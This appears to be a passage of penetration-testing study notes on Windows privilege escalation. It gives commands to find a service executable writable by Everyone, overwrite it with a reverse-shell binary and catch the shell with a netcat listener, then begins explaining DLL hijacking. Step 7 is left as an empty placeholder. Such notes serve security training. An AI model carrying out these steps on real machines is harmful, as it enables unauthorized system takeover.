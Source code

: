 ```
filepermsvc (File Permissions Service) File Permissions Everyone [AllAccess]
```

2\. Verify findings with Access Check

```
.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

3\. Verify if we can start/stop the service

```
.\accesschk.exe /accepteula -uvqc filepermsvc
SERVICE_START
SERVICE_STOP
```

4\. Backup the Executable

```
copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
```

5\. Copy reverse shell executable to overwrite original service executable

```
copy /Y C:\..\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```

6\. Start a Netcat listener on Kali

```
nc -lnvp 53
```

7\. Start the service to trigger the reverse shell

```
// Some code 
```

### DLL Hijacking

Often a service will try to load functionality from a library called a <mark style="color:yellow;">Dynamic Link Library (DLL)</mark>.

<mark style="color:yellow;">Whatever functionality the DLL provides, will be executed with the SAME privileges as te service that loaded it.</mark>

If a DLL is loaded with an absolute path, it might be possible to escalate privileges if that DLL is writable by our user.

#### Common Misconfiguration

If a DLL is MISSING from a system, and our user has write access to a directory within the PATH that Windows searches for DLLS in.

<mark style="color:red;">NOTE: This is very difficult and time consuming.</mark>

How to Detect
